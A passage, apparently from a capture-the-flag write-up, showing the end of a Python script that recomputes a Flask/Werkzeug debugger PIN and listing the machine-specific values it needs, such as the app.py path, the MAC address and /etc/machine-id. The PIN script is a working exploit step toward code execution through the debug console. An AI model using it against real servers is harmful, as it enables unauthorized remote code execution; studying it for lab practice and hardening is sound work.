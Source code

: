 ```python
	if isinstance(bit, str):
		bit = bit.encode('utf-8')
	h.update(bit)
h.update(b'cookiesalt')
#h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
	h.update(b'pinsalt')
	num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv =None
if rv is None:
	for group_size in 5, 4, 3:
		if len(num) % group_size == 0:
			rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
						  for x in range(0, len(num), group_size))
			break
	else:
		rv = num

print(rv)
```

### Obtaining Werkzeug PIN exploit values

The values that will need changing are:

 - username
 - `getattr(mod, '__file__', None)`
 - `str(uuid.getnode()),  /sys/class/net/ens33/address`
 - `get_machine_id(), /etc/machine-id`
  
Since they are machine dependant. The user running the service is Angus. And the other values can be found as detailed in the article.

#### `getattr(mod, '__file__', None)`

The value of `getattr(mod, '__file__', None)` is determined as the location of the flask `app.py` in `dist-packages` this can be found as follows:

![picture](https://i.imgur.com/Dx2fTqU.png)

#### `str(uuid.getnode()),  /sys/class/net/ens33/address`

There are two ways to get this but since Werkzeug debugger uses `str(uuid.getnode())` to calculate this value, it's probably safest to use the result of this command than it would be to convert the mac address of the interface into decimal. So this can be found with:

![picutre](https://i.imgur.com/1NyKlqX.png)

